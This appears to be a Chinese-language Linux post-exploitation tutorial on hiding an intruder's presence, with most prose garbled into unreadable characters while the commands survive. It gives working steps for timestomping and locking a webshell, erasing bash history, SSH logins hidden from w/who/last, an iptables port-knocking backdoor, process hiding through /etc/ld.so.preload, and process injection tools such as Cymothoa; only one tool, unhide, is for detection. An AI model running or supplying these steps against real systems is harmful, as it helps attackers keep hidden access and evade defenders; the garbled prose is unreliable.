






# 第3篇：Linux权限维持--隐藏篇

### 0x00 ǰ��

�������ڻ�ȡ������Ȩ�޺󣬻�ͨ��һЩ�����������Լ����ټ��ͺ����ļ������Ľ���Linux�µļ������ؼ�����

### 0x01 �����ļ�

Linux �´���һ�������ļ���`touch .test.txt`

touch ������Դ���һ���ļ����ļ���ǰ���һ�� �� �ʹ����������ļ�,����ͼ��


һ���Linux�µ�����Ŀ¼ʹ������`ls -l`�Dz鿴�������ģ�ֻ�ܲ鿴���ļ����ļ��У��鿴Linux�µ������ļ���Ҫ�õ����`ls -al`

������ǿ��Կ�����/tmp�£�Ĭ�ϴ��ڶ������Ŀ¼����ЩĿ¼�Ƕ����ļ������������ĵط�����`/temp/.ICE-unix/��/temp/.Test-unix/��/temp/.X11-unix/��/temp/.XIM-unix/`

### 0x02 �����ļ�ʱ���

Unix �²غ��ű���Ҫ�޸�ʱ�䣬��������ױ����֣�ֱ������ touch �Ϳ����ˡ�

����ο� index.php ��ʱ�䣬�ٸ��� webshell.php����������ļ���ʱ���һ���ˡ�

���÷���

touch -r index.php webshell.php

����ֱ�ӽ�ʱ����޸ij�ij��ij��ij�ա����� 2014 �� 01 �� 02 �ա�

touch -t 1401021042.30 webshell.php

### 0x03 ����Ȩ��

��Linux�У�ʹ��chattr��������ֹroot�����������û���ɾ�����޸���Ҫ�ļ���Ŀ¼����Ȩ����ls -l�Dz鿴�������ģ��Ӷ��ﵽ����Ȩ�޵�Ŀ�ġ�

������ɳ������ں��ţ������һЩ��������ĺ����ļ�����ܶ��������Ѹе�ͷ�ۡ�

```text
chattr +i evil.php �����ļ�
lsattr  evil.php   ���Բ鿴
chattr -i evil.php �������
rm -rf 1.evil.php  ɾ���ļ�
```



### 0x04 ������ʷ��������

��shell��ִ�е������ϣ������¼����������ʷ�У������linux�п����޺۲���ģʽ�أ�

����һ��ֻ�����Ĺ����ر���ʷ��¼

```text
[space]set +o history
��ע��[space] ��ʾ�ո񡣲������ڿո��Ե�ʣ��������Ҳ���ᱻ��¼��
```

������������ʱ������ʷ���ܣ�����ζ����������֮����ִ�е����в����������¼����ʷ�У�Ȼ���������֮ǰ�����ж�������ԭ����¼����ʷ�б��С�

Ҫ���¿�����ʷ���ܣ�ִ����������

```text
[Space]set -o history
���������ָ�ԭ״��Ҳ�������������Ĺ�����ִ����������֮���������������ʷ�С�
```

���ɶ�������ʷ��¼��ɾ��ָ��������

������ʷ��¼���Ѿ�������һЩ�㲻ϣ����¼��������������������ô�죿�ܼ򵥡�ͨ�������������ɾ����

```text
history | grep "keyword"
```

�����ʷ��¼��ƥ������ÿһ��ǰ����и����֡�����ʷ��¼��ɾ���Ǹ�ָ�����

```text
history -d [num]
```



���ּ����ǹؼ���¼ɾ�����������ǿ��Ա����㣬����ǰ150�����û�������������¼��150�Ժ��ǹ����߲�����¼�����ǿ���ֻ���������IJ�����ɾ�������ۼ�����ʷ������¼���������ֻ����ǰ150�У�

```text
sed -i '150,$d' .bash_history
```

### 0x05 ����Զ��SSH��½��¼

## ������¼ϵͳ�����ᱻw��who��last��ָ���⵽��

```text
ssh -T root@127.0.0.1 /bin/bash -i
```

����¼ssh��Կ�ڱ���.sshĿ¼��

```text
ssh -o UserKnownHostsFile=/dev/null -T user@host /bin/bash �Ci
```

### 0x06 �˿ڸ���

ͨ���˿ڸ������ﵽ���ض˿ڵ�Ŀ�ģ���Linux�£����ʵ�ֶ˿ڸ����أ�

��һ�ַ�ʽ��ͨ��SSLH��ͬһ�˿��Ϲ���SSH��HTTPS

```text
 #��װSSLH
 sudo apt-get install sslh
 #����SSLH
 �༭ SSLH �����ļ���
 sudo vi /etc/default/sslh
 1���ҵ������У�Run=no  �����޸�Ϊ��Run=yes
 2���޸������������� SSLH �����п��ýӿ��������˿� 443
 DAEMON_OPTS="--user sslh --listen 0.0.0.0:443 --ssh 127.0.0.1:22 --ssl 127.0.0.1:443 --pidfile /var/run/sslh/sslh.pid"
```

�ڶ��ַ�ʽ������IPTables���ж˿ڸ���

```text
# �˿ڸ�����
iptables -t nat -N LETMEIN
# �˿ڸ��ù���
iptables -t nat  -A LETMEIN -p tcp -j REDIRECT --to-port 22
# ��������
iptables -A INPUT -p tcp -m string --string 'threathuntercoming' --algo bm -m recent --set --name letmein --rsource -j ACCEPT
# �رտ���
iptables -A INPUT -p tcp -m string --string 'threathunterleaving' --algo bm -m recent --name letmein --remove -j ACCEPT
# let's do it
iptables -t nat -A PREROUTING -p tcp --dport 80 --syn -m recent --rcheck --seconds 3600 --name letmein --rsource -j LETMEIN
```

���÷�ʽ��

```text
#��������
echo threathuntercoming | socat - tcp:192.168.28.128:80
#sshʹ��80�˿ڽ��е�¼
ssh -p 80 root@192.168.28.128
#�رո���
echo threathunterleaving | socat - tcp:192.168.28.128:80
```



�������������[Զ��ң�� IPTables ���ж˿ڸ���](https://www.freebuf.com/articles/network/137683.html)

### 0x07 ��������

����Ա�޷�ͨ���������߲��ҵ������еĽ��̣��Ӷ��ﵽ����Ŀ�ģ�ʵ�ֽ������ء�

��һ�ַ�����libprocesshider

github��Ŀ��ַ��[https://github.com/gianlucaborello/libprocesshider](https://github.com/gianlucaborello/libprocesshider)

���� LD\_PRELOAD ��ʵ��ϵͳ�����Ľٳ֣�ʵ������

```text
# ���س������
git clone https://github.com/gianlucaborello/libprocesshider.git
cd libprocesshider/ && make
# �ƶ��ļ���/usr/local/lib/Ŀ¼��
cp libprocesshider.so /usr/local/lib/
# �������ص�ȫ�ֶ�̬���Ӿ�
echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
```

���ԣ����� evil\_script.py��



��ʱ������top �� ps �ж��޷��ҵ� evil\_script.py�� cpu ʹ���ʸ�,����ȴ�Ҳ����κ�ռ��cpu�ߵij���



�����Linux�з������صĽ��̣�

`unhide` ��һ��С�ɵ�����ȡ֤���ߣ��ܹ�������Щ����rootkit��LKM�������������صĽ��̺�TCP / UDP�˿ڡ����������Linux��UNIX�࣬MS-Windows�Ȳ���ϵͳ�¶����Թ�����

���ص�ַ��[http://www.unhide-forensics.info/](http://www.unhide-forensics.info/)

```text
# ��װ
sudo yum install unhide
# ʹ��
unhide [options] test_list
```

ʹ��`unhide proc`�������ؽ���evil\_script.py������ͼ��ʾ��


�ڶ��ַ���������ע�빤��linux-inject

linux-inject�����ڽ���������ע��Linux���̵Ĺ���

github��Ŀ��ַ�� [https://github.com/gaffe23/linux-inject.git](https://github.com/gaffe23/linux-inject.git)

```text
# ���س������
git clone https://github.com/gaffe23/linux-inject.git
cd linux-inject && make
# ���Խ���
./sample-target
# ����ע��
./inject -n sample-target sample-library.so
```

��֤����ע��ɹ�������ͼ��ʾ��



Cymothoa��һ�����صĺ��Ź��ߡ���ͨ����Ŀ��������Ծ�Ľ���ע�������룬�Ӷ���ȡ��ԭ������ͬ��Ȩ�ޡ��ù��������ŵ���Dz������µĽ��̣������ױ����֡�

���ص�ַ��[https://sourceforge.net/projects/cymothoa/files/cymothoa-1-beta/](https://sourceforge.net/projects/cymothoa/files/cymothoa-1-beta/)

```text
# ���ؽ�ѹ
wget https://jaist.dl.sourceforge.net/project/cymothoa/cymothoa-1-beta/cymothoa-1-beta.tar.gz
tar zxvf cymothoa-1-beta.tar.gz 
# 
cd cymothoa-1-beta && make
```

### 0x07 ����

������Ҫ������Linux�µļ������ؼ��������������ļ�������Ȩ�ޡ�������ʷ��������˿ڸ��á��������صȷ���ļ��ɡ�������ש����֮�ã���ӭ���Է�����

�ο����£�

Tiny Shell

����ͨ����Դ��������PROCESS\_NAMEΪbash����ʹ�������к�Ľ�������ʾΪbash�� �ڶ��������ͨ�����þ����Ի��ԵĽ������֣��Դﵽ��ܹ���Ա����Ŀ�ġ�

[https://github.com/orangetw/tsh](https://github.com/orangetw/tsh)

�ο����£�[https://www.freebuf.com/sectool/138350.html](https://www.freebuf.com/sectool/138350.html)

mount-bind

����mount ��bind ������һ��Ŀ¼���ظ�����/proc/Ŀ¼��ָ������ID��Ŀ¼

��һ��Linux�½������صij����ַ�������ֶ� [https://www.anquanke.com/post/id/160843](https://www.anquanke.com/post/id/160843)

������֮���ֺ�������mount-bind�����̺Ͷ˿���Ϣ���� [https://www.freebuf.com/articles/network/140535.html](https://www.freebuf.com/articles/network/140535.html)

[https://blog.csdn.net/liuqz2009/article/details/43530201](https://blog.csdn.net/liuqz2009/article/details/43530201) Linux ������ע�����

linux ����ע����Ź���Cymothoa

���������� Linux ����������ʷ [https://www.linuxprobe.com/hidden-cmd-history.html](https://www.linuxprobe.com/hidden-cmd-history.html)

����sslhʵ�ֶ˿ڸ��� [https://www.bbsmax.com/A/QW5YwpWezm/](https://www.bbsmax.com/A/QW5YwpWezm/)

Զ��ң�� IPTables ���ж˿ڸ��� [https://www.freebuf.com/articles/network/137683.html](https://www.freebuf.com/articles/network/137683.html)

Venom �༶��������

linux �����ؽ��̵�һ�ַ����������Ŀ�

[https://www.jb51.net/article/147024.htm](https://www.jb51.net/article/147024.htm)

����� Linux/Unix/Windows �з������صĽ��̺Ͷ˿� [https://linux.cn/article-9288-1.html](https://linux.cn/article-9288-1.html)

